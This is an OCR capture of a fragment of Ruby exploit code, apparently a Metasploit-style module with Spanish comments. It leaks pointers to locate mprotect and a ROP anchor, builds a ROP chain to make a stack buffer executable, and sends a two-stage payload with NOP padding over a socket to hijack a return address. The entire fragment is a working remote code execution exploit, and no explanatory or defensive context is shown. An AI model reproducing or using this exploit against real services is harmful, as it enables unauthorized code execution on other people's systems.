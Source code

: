```ruby
      addr_f = read_pointer_in(addr_f_ptr)
        
      # Calculamos la dirección de mprotect.
      addr_mprotect = addr_f + target['Offset from f to mprotect']
        
      print "[*] Computed &mprotect = 0x#{addr_mprotect.to_s(16)}.\n\n"
        
      # Desconectamos y reconectamos
      print "[*] Restarting connection...\n"
      disconnect
      connect
        
      # Leemos la dirección de retorno.
      print "[*] Trying to read address from code section.\n"
      addr_code = read_pointer_in(addr_ret)
        
      # Calculamos la dirección de aid.
      addr_rop = addr_code + target['Offset from code leak to ROP anchor']
        
      print "[*] Computed ROP anchor: 0x#{addr_rop.to_s(16)}.\n\n"
        
      # Desconectamos y reconectamos
      print "[*] Restarting connection and preparing exploit...\n"
      disconnect
      connect
        
      # Preparamos el payload.
      payload_length = payload.encoded.length
      padding = '\x90'*(64 - payload_length)
        
      # Construimos la cadena.
      chain = [
        addr_rop + 4,
        0x1800,
        addr_rop + 6,
        addr_buffer & 0xfffffffffffff000,
        addr_rop + 8,
        0x7,
        addr_mprotect,
        addr_buffer
      ].pack('Q<*').force_encoding("ASCII-8BIT")
        
      # Calculamos la dirección del perfil virtual para ejecutar la escritura.
      addr_vprofile = [addr_ret - 8].pack('Q<')
        
      # Preparamos el exploit final.
      stage_one = "#{payload.encoded}#{padding}:#{'B'*64}#{addr_vprofile}\x0a"
      stage_two = "NAME#{chain}\x0a"
        
      print "[*] Sending stage 1...\n"
      sock.send stage_one, 0
      sock.gets
        
      print "[*] Sending stage 2...\n"
      sock.send stage_two, 0
      sock.gets
        
      print "[*] Exploit sent.\n\n"
 
    ensure
      print "[*] Disconnecting...\n"
      disconnect
      print "[*] Done.\n"
```